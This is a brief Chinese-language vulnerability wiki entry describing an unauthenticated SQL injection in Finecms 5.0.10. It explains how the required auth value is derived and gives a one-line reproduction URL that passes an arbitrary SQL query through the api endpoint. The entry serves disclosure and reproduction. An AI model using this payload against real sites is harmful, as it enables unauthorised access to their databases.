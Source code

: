 Finecms 5.0.10 sql注入漏洞
==========================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?c=api&m=目标站点的值&param=action=sql%20sql=%27select%20version();%27

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10sql注入漏洞/media/rId24.png)
